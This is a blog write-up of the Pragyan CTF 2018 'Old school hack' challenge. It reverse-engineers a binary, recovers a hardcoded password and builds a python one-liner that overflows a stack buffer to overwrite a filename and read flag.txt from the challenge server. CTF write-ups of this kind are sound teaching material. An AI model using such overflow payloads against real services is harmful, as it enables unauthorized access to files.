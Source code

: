 ```yaml
---
layout: post
title:  "[Pragyan CTF 2018] Old school hack"
date:   2018-03-02 14:52:25 +0000
categories: "CTF"
comments: true
---
```


I played [Pragyan CTF](https://ctf.pragyan.org/home) for a few challenges and I thought the "Old School Hack" challenge should be great for a first post.

Gatheting information
---------------------

The challenge is running at 28.199.224.175:13000, but it also comes with a binary file named "police_academy" so let's start with it:
{% highlight html %}
└───▶ file police_academy
police_academy: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=db4dffbb6fd12d16c55cab166d1d1a9698374b5f, not stripped
{% endhighlight %}
The **file** command inform us that this binary is an ELF for x86-64 architectures, that it's dynamically linked and most importantly that it's not stripped so it should be easier to disassemble.

Then comes the obvious **strings** command, which will give us useful information:
{% highlight html %}
XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
Enter password to authentic yourself :
kaiokenx20
Incorrect password. Closing connection.
Enter case number:
	 1) Application_1
	 2) Application_2
	 3) Application_3
	 4) Application_4
	 5) Application_5
	 6) Application_6
	 7) Flag
	 Enter choice :-
You don't have the required privileges to view the flag, yet.
No such record exists. Please verify your choice.
{% endhighlight %}
Yeah, a lot of things.

### First detonation

Let's run the binary and see what it does:
{% highlight shell %}
└───▶ chmod +x police_academy
┌─[✔]───[fabien@fabien-pc]───[pragyan_ctf]───[10 files, 72K]
└───▶ ./police_academy
Enter password to authentic yourself :
{% endhighlight %}
Hmmm... It asks for a password. At this point we can note the first input field of the program, it can be useful for later. I tried several random characters; didn't work.

Maybe our input password will merely be compared to another string that is hardcoded in the binary, and if so, this string should be in the **strings** output. But let's be clear here, I just randomly tried the string "kaiokenx20" just after "Enter password to authentic yourself :" before thinking about this because it was too big to not try, and it works.
{% highlight html %}
└───▶ ./police_academy
Enter password to authentic yourself : kaiokenx20
Enter case number:

	 1) Application_1
	 2) Application_2
	 3) Application_3
	 4) Application_4
	 5) Application_5
	 6) Application_6
	 7) Flag

	 Enter choice :-
{% endhighlight %}

Second input field. Now obvisouly, let's try the option 7 "Flag":
{% highlight html %}
	 Enter choice :- 7
You don't have the required privileges to view the flag, yet.
{% endhighlight %}
Yeah, it may not be that easy. The other options just close the connection, but we'll see why later. Let's try to find something interesting in the disassembly code.

Static analysis
---------------------
I used radare2 + cutter as a GUI (which is very cool to use) to disassemble the binary. Let's examine our first input, and navigate to the first **scanf** call:
{% highlight nasm %}
0x004009e1           call sym.imp.__isoc99_scanf
0x004009e6           lea  rax, qword rbp - 0x40
0x004009ea           mov  edx, 0xa
0x004009ef           mov  esi, str.kaiokenx20                         ; 0x400ec8 ; "kaiokenx20"
0x004009f4           mov  rdi, rax
0x004009f7           call sym.imp.strncmp
{% endhighlight %}

 After the first **scanf**, we can observe that our input is indeed compared to *kaiokenx20*, but it uses **strncmp** with the first 10 characters (the last parameter seems to be *edx* which is 0xa). Thus, for example **strncmp("kaiokenx20", "kaiokenx20AAAA", 10)** should return 0. We will exploit this later. Also, our input is *rbp-0x40* in the stack.

 Next **scanf**:
 {% highlight nasm %}
 lea  rax, qword rbp - 0x48
0x00400ab6           call sym.imp.__isoc99_scanf
0x00400abb           mov  eax, dword [local_48h]
0x00400abe           cmp  eax, 7                                      ; 7
0x00400ac1           ja   0x400cb8
{% endhighlight %}
Our second input is *rbp - 0x48* in the stack and is compared to 7 which is the number of options. If above (ja), it jumps to 0x400cb8. I thought in first place that it was the end of the main function. But nop, just before a function called **print_record**.

Just after the jump, there is another jump and 6 times the almost same code pattern.
 {% highlight nasm %}
 0x00400ac7           mov  eax, eax
 0x00400ac9           mov  rax, qword [rax*8 + 0x401028]               ; [0x401028:8]=0x400cb8 "H.E.H........E..}..u....@"
 0x00400ad1           jmp  rax

 0x00400ad3           lea  rax, qword rbp - 0x30
 0x00400ad7           movabs rcx, 0x3037303838356132
 0x00400ae1           mov  qword [rax], rcx
 0x00400ae4           movabs rdx, 0x3566356538656130
 0x00400aee           mov  qword [rax + 8], rdx
 0x00400af2           movabs rcx, 0x6339666439616331
 0x00400afc           mov  qword [rax + 0x10], rcx
 0x00400b00           movabs rdx, 0x6436353334346135
 0x00400b0a           mov  qword [rax + 0x18], rdx
 0x00400b0e           mov  dword [rax + 0x20], 0x7461642e              ; [0x7461642e:4]=-1
 0x00400b15           mov  byte [rax + 0x24], 0
 0x00400b19           jmp  0x400cb8
{% endhighlight %}
The first three lines will jump to one of these pattern, for instance to 0x00400ad3 if we choose the first option. It clearly constructs a string which is placed just after our first input in the stack... Seems like a buffer overflow exploitation. This is in little endian so the string is:
 {% highlight html %}
0x3037303838356132 + 0x3566356538656130 + 0x6339666439616331 + 0x6436353334346135 + 0x7461642e =
38303730326135386535663530616538646639633163613933353664356134342E646174 =
80702a58e5f50ae8df9c1ca9356d5a44.dat
{% endhighlight %}
It also add a null byte at the end, to terminate the string (0x00400b15). Then, it jumps just before **print_record** again.

A quick look at this function seems to show that it first checks the lenght of a string (the one it just constructs?), compare it to 36 (0x24) (which is the size of the constructed string again), and if it's not equal quit the function. Otherwise it will try to open the file and print what's inside (**fopen** and **fread**).

For the option 7, it constructs the string "flag.txt". We can now easily assume that the flag is in this file.

Dynamic analysis
---------------------
Let's now run it with gdb. For now I just want to see if it's gonna open the file named *80702a58e5f50ae8df9c1ca9356d5a44.dat* for the first option. I'll just set a breakpoint at the **fopen** instruction to see if the string is one of its arguments:
{% highlight nasm %}
gdb-peda$ r <<<$(python -c "print('kaiokenx20' + '\n' +'1')")
...
	0x4008cf <print_record+73>:	mov    rax,QWORD PTR [rbp-0x348]
	0x4008d6 <print_record+80>:	mov    esi,0x400d98
	0x4008db <print_record+85>:	mov    rdi,rax
	=>0x4008de <print_record+88>:	call   0x400750 <fopen@plt>
	0x4008e3 <print_record+93>:	mov    QWORD PTR [rbp-0x338],rax
	0x4008ea <print_record+100>:	cmp    QWORD PTR [rbp-0x338],0x0
	0x4008f2 <print_record+108>:	jne    0x4008fe <print_record+120>
	0x4008f4 <print_record+110>:	mov    eax,0xffffffff
Guessed arguments:
arg[0]: 0x7fffffffe010 ("2a5880700ae8e5f51ca9df9c5a44356d.dat")
arg[1]: 0x400d98 --> 0x72 ('r')
{% endhighlight %}
Yep, looks like it will try to open *2a5880700ae8e5f51ca9df9c5a44356d.dat*. I created a file with this name and some random characters in it and yes it opens and outputs it.

We also want to give a look on how where the string is placed in the stack.  Let's set a breakpoint before the call to **print_record** in the **main** function:
{% highlight nasm %}
[------------------------------------stack-------------------------------------]
0000| 0x7fffffffdff0 --> 0x0
0008| 0x7fffffffdff8 --> 0x1
0016| 0x7fffffffe000 ("kaiokenx20")
0024| 0x7fffffffe008 --> 0x3032 ('20')
0032| 0x7fffffffe010 ("2a5880700ae8e5f51ca9df9c5a44356d.dat")
0040| 0x7fffffffe018 ("0ae8e5f51ca9df9c5a44356d.dat")
0048| 0x7fffffffe020 ("1ca9df9c5a44356d.dat")
0056| 0x7fffffffe028 ("5a44356d.dat")
[------------------------------------------------------------------------------]
{% endhighlight %}
Following our first input, we have the name of the file to open. And note that the **print_record** function read the same string at the same address (0x7fffffffe010).

It's now easy to think of a potential payload:

+ First we have the password buffer which is not controlled and with which we can write futher down the stack. Remember, the password buffer is at *rbp-0x40* and the file name should start at *rbp - 0x30*. The password string should be 16 characters.
+ Then, we will write the name of the file. It has to be 36 characters long to match the **strlen** test in **print_record**.
+ Finally, we have to choose an option above 7 to jump directly to **print_record**.

A potential payload should be:

{% highlight shell %}
python -c "print('kaiokenx20AAAAAA.' + '/'*27 + 'flag.txt' + '\n8')" | ./police_academy
{% endhighlight %}

Now, let's create a file named "flag.txt" in the same folder as the binary. We'll try to read it.

{% highlight shell %}
└───▶ python -c "print('kaiokenx20AAAAAA.' + '/'*27 + 'flag.txt' + '\n8')" | ./police_academy
...
XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX

FLAG


XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
{% endhighlight %}

It works ! Now, let's try it on *28.199.224.175 13000*:

{% highlight shell %}
└───▶ python -c "print('kaiokenx20AAAAAA.' + '/'*27 + 'flag.txt' + '\n8')" | nc 128.199.224.175 13000
...
XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX

The flag is :- pctf{bUff3r-0v3Rfl0wS`4r3.alw4ys-4_cl4SsiC}
9^

XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
{% endhighlight %}

Really easy one but it was kind of fun.
